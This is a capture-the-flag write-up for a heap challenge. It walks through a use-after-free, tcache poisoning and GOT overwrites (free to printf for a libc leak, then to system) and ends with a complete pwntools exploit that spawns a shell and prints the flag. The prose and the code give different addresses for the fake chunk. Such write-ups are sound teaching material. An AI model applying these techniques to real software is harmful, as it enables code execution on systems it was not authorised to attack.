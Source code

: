 ## Level: Medium

### Challenge

My first heap challenge, thank you @p0ch1ta for this super cool challenge. The intended way is **House of Muney** which is *leaklesss* heap exploit but I cheese'd it with getting a **leak** :)
more about House of Muney: https://maxwelldulin.com/BlogPost/House-of-Muney-Heap-Exploitation

### Checksec

![checksec](https://github.com/user-attachments/assets/c7e637d7-c3d5-4471-8c6a-f4e995039adf)

### How to leak? 

![menu](https://github.com/user-attachments/assets/2b949dc9-4cb1-4208-8fc7-b56701a8e267)

They give us an obvious vulnerability with `2. Change chunk size` but I didn't use it :P There is already **UAF** in this binary and I think that's all you need to get a shell. 

Anyway, we can change the `got` address of **free** with *printf* so it would call printf whenever we free a chunk. In order to do that we need to **fake** a chunk to read into that address near `got entries` and change it. 

Here's my approach (The order matters!!):

```
1 - Malloc chunk 0 and chunk 1
2 - Free 1 then and 0
```

![free2](https://github.com/user-attachments/assets/baacd9f6-ec15-419b-a1d4-6fb438b15b0b)

Mind that `chunk 0` is behind `chunk 1`. 

```
3 - Edit free'd chunk 0 to fake a chunk (UAF)
```
![uaf1](https://github.com/user-attachments/assets/9078a95b-29db-4884-9abd-1af8c2f3f638)

Now `chunk 0` is pointing to `AAAAAAAA` instead of pointing to the `next chunk` (chunk 1). Of course we don't want chunk 0 to point some random address. We can make it point to a **mallocable** address. 

![gotoffree](https://github.com/user-attachments/assets/406238ec-be12-4aa0-a2b1-75f209ac626e)

There are some caveats to fake a chunk and turns out `0x453508` is perfect. It's near got entries and most importantly mallocable. Make sure that `chunk 0 and 1` have *enough size* to read into **free@got**. Which is at least `40 bytes` in this case. 

```
4 - Malloc twice so fake chunk gets allocated and points to free@got
```

![empty](https://github.com/user-attachments/assets/6ef3a766-c2a5-41ad-b77d-f7ba363b9acb)

Tcache is empty, this means that our `fake chunk` is allocated. 

```
5 - Use "4. Edit chunk" option to start reading into fake chunk's next pointer. Which is somewhere near got entries. 
```

![readgots](https://github.com/user-attachments/assets/2c7867b9-1328-412e-94ab-78acb88873b8)

This looks good! But how are we going to get a leak? 

```
6 - Overwrite free@got with printf and use format strings to leak from the stack
7 - Free the fake chunk to call printf (specify format strings to leak info about addresses on the stack)
```

![leaksss](https://github.com/user-attachments/assets/89d35390-01fa-4434-b9d1-de18196c3bfd)


Now that we have our leak in libc, we can calculate the offset to `libc base` and we are almost done. 

```
8 - Overwrite free@got again but with system!
9 - Free the fake chunk to call system("/bin/sh")
```

![flaggg](https://github.com/user-attachments/assets/9999e3cf-a772-47a6-a610-841707b260e3)

Getting a shell was quite painful because so I just write out the flag. This was really fun even tho it wasn't intented solution! I think I learned a lot from this and I must include following writeups that inspired me for this solution:
https://www.youtube.com/watch?v=qVLXHNqxpkE (by c0nrad)
https://github.com/MarcoPellero/writeups/blob/main/backdoor/konsolidator/writeup.md

### Full Exploit

```
#!/usr/bin/env python3

from pwn import *
"""
p = gdb.debug("./chall_patched", gdbscript='''
    continue 
''')
"""

p = process("./chall_patched")

# allocate two chunks
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("0")
p.recvuntil(b">> ")
p.sendline(b"40")

p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(b"40")

# free them 
p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("1")

p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("0")

# USE AFTER FREE
# change chunk's pointer to somewhere (mallocable) near got entries
near_got = 0x403508 
p.recvuntil(b">> ")
p.sendline("4")
p.recvuntil(b">> ")
p.sendline("0")
p.recvuntil(b">> ")
p.sendline(p64(near_got))

# malloc twice
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(b"40")

p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(b"40")

# overwrite the got entry of "free" with "printf"
# leak an address in libc with format strings
payload = b"%17$pAAA" # this is rdi
payload += b"A" * 24
payload += p64(0x401120)
p.recvuntil(b">> ")
p.sendline("4")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(payload)

# leak(free) and calculate the offset to "system"
p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("1")

p.recvuntil(b"Data")
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()

libc_leak = p.recvline()
print(libc_leak)
libc_leak = int(libc_leak[3:17], 16)

libc_base = libc_leak - 544229
print("LIBC_BASE: " + hex(libc_base))

system = libc_base + 336528
print("SYSTEM: " + hex(system))

# overwrite the got entry of "free" with "system"
# write out the flag
payload = b"//bin/sh" # rdi
payload += b" $(cat flag)"
payload += b" " * 12
payload += p64(system)
p.recvuntil(b">> ")
p.sendline("4")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(payload)

# call system("/bin/sh...")
p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("1")

p.interactive()
```

